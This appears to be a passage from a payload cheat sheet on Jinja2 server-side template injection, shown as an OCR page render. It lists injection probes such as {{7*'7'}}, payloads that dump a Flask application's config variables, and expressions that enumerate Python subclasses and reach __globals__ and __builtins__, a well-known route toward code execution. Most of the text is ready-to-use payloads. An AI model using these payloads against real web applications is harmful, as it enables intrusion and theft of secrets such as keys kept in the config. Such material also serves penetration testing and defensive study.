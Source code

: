 ### Jinja2 - Basic Injection

```python
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
{{config.items()}}
```

Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on a Flask application.

### Jinja2 - Template Format

```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

### Jinja2 - Debug Statement

If the Debug Extension is enabled, a `{% debug %}` tag will be available to dump the current context as well as the available filters and tests. This is useful to see what’s available to use in the template without setting up a debugger.

```python
<pre>{% debug %}</pre>
```

Source: <https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement>

### Jinja2 - Dump All Used Classes

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

Access `__globals__` and `__builtins__`:

```python
{{ self.__init__.__globals__.__builtins__ }}
```

### Jinja2 - Dump All Config Variables

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```
